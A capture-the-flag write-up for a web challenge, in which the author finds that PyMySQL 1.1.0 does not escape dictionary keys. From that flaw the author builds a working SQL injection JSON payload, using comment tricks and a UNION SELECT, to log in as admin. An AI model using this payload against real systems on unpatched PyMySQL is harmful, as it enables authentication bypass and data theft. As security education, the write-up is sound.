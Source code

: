 UBook: Web - viennabootcamp 2024 (0 solve, upsolved)
===
Upsolved challenge during a bootcamp with some european national teams 
## The challenge
The challenge is a login system. Login as admin gives you the FLAG.
## Interesting points
### Unserialize
The challenge has a `safe_unserialize` function to manage json requests
```python
def safe_unserialize(obj: any) -> any:
    """Unpickle the object safely. Thx copilot <3"""
    if isinstance(obj, dict):
        return {User.to_user(k): safe_unserialize(v) for k, v in obj.items()}
    elif isinstance(obj, list):
        return [safe_unserialize(v) for v in obj]
    elif isinstance(obj, str):
        return User.to_user(obj)
    else:
        return obj

```
### User class
This is the user class
```python
class User:
    """User class to handle user data."""
    def __init__(self, name: str, password: str, country: str):
        self.name = name
        self.password = password
        self.country = country

    def get(self, attr: str) -> str:
        return getattr(self, attr, None)

    def __repr__(self) -> str:
        return f'{self.name},{self.country}'
    
    def __str__(self) -> str:
        return f'{self.name},{self.country}'
    
    @staticmethod
    def to_user(s: str) -> 'User':
        # we don't want XSS, so we allow only safe symbols here
        return User(*s.split(',')) if re.match('^[\/\w:\.^\*@]{4,10},[\/\w:\.^\*@]{7,},[A-Z]{2}$', s) else s
```
### Query
All query are done by this function (using PyMySQL==1.1.0)
```python
def query_handler(sql, cur, params=[]):
    try:
        cur.execute(sql, params)
    except Exception as e:
        cur.close()
        app.logger.critical(e)
        abort(500)
    
    return cur
```

Login Query:
```python
[...]
QUERY_GET = "SELECT * FROM users WHERE (BINARY CONCAT(name, ',', country) = %s)"
[...]
cur = query_handler(QUERY_GET, cur, (user,))
[...]
```
## Exploit
So we have to do a SQLi of course but how? Every query is prepared.

Let me check the lib:

This is the `mogrify` function for escape args
```python
def mogrify(self, query, args=None):
    conn = self._get_db()

    if args is not None:
        query = query % self._escape_args(args, conn)

    return query
```

So... this is not a real prepared query. Let's see the `_escape_args` function

```python
def _escape_args(self, args, conn):
    if isinstance(args, (tuple, list)):
        return tuple(conn.literal(arg) for arg in args)
    elif isinstance(args, dict):
        return {key: conn.literal(val) for (key, val) in args.items()}
    else:
        # If it's not a dictionary let's try escaping it anyways.
        # Worst case it will throw a Value error
        return conn.escape(args)
```

Oh
return `{key: conn.literal(val) for (key, val) in args.items()}`

The key are not escaped!!!! (after CTF the author (@lavish) send the [advisor](https://github.com/PyMySQL/PyMySQL/releases/tag/v1.1.1), not found during event :/ )

So if we send this payload we have a syntax error (we can send any json object of course):
```json
[{
    "user":"aaaaa",
    "password":"aaaaa",
    "country":"aaaa"
}]
```
```
(1064, 'You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near \'\'user\': "\'aaaaa\'", \'password\': "\'aaaaa\'", \'country\': "\'aaaa\'"})\' at line 1')
```

Okay, obv the curly brackets :(

After a ***big*** amount of hours of search on the internet, with the query `mysql syntax curly brackets` I landend to this page [https://dev.mysql.com/doc/refman/8.4/en/expressions.html](https://dev.mysql.com/doc/refman/8.4/en/expressions.html)

Yes, yes, yes! I'm noob in google search

## Final Payload

The `__repr__` of user help us to remove the quotes. So start from this

```json
{
    "aaaa,aaaaaaa,AA": null
}
```

```sql
SELECT * FROM users WHERE (BINARY CONCAT(name, ',', country) = {aaaa,AA: 'NULL'})
```

We need some comments for the commas

```json
{
    "aa/*aa,aaaaaaa,AA": null,
    "*/": null
}
```
```sql
SELECT * FROM users WHERE (BINARY CONCAT(name, ',', country) = {aa/*aa,AA: 'NULL', '*/': 'NULL'})
```

YES! Null is an SQL key and not a string. Let's pull all togheter

```json
{
"aa/*aa,aaaaaaa,AA":null,
"*/":"}) UNION SELECT 1,1,SHA2(1,256),1,1 -- ",
"password":"1"
}
```

Enjoy!!!



